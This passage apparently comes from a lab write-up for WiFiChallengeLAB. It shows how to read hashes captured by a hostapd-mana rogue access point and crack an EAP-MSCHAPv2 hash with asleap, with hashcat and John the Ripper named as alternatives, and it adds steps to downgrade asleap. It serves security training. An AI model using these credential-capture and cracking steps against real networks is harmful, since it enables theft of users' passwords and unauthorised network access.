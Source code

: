 ```
MANA EAP EAP-MSCHAPV2 ASLEAP user=juan.tr | asleap -C XXXXXXXXXXXXXXXXXXXXXXX -R XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
MANA EAP EAP-MSCHAPV2 JTR | juan.tr:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | juan.tr::::XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXXX

```

### Crack the hash
We have captured the hash of the user. There are three options to crack the hash.
1. Asleap
2. Hashcat
3. John the Ripper

In **Terminal 9 - Crack hash** we will crack the hash of the user for a password.
The hashes can be found in the output of `HostAPd` or the hashes are stored in the captured file as well.
To see the hashes we can run the following command.
```bash
cat /tmp/hostapd.credout
```

#### asleap
We can crack the hash with asleap. We should copy the output after `MANA EAP EAP-MSCHAPV2 ASLEAP user=juan.tr |` and run then the following command.
```bash
asleap -C d4:b9:92:06:0e:57:9a:0d -R 59:b8:e1:db:c7:a8:8e:bc:f7:21:28:52:92:f0:21:2b:88:0f:df:c4:fb:ef:fe:6f -W /usr/share/john/password.lst
```
On WiFiChallengeLAB asleap is not installed. To test this command I used my Kali WiFi instance. I had to downgrade asleap from version 2.3 to 2.2 to make it work.
![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231211224646.png){: width="700" height="400" }

If you got some issues with asleap and running on version 2.3, you might want to consider to downgrade.
The following steps could be used to downgrade.

Step 1
```bash
wget https://debian.sipwise.com/debian-security/pool/main/o/openssl1.0/libssl1.0.2_1.0.2u-1~deb9u7_amd64.deb
```
Step 2
```bash
sudo apt install ./libssl1.0.2_1.0.2u-1\~deb9u7_amd64.deb
```
Step 3
```bash
wget https://old.kali.org/kali/pool/main/a/asleap/asleap_2.2-1kali7_amd64.deb
```
Step 4
```bash
sudo apt install ./asleap_2.2-1kali7_amd64.deb
```
Now you are ready to use asleap.
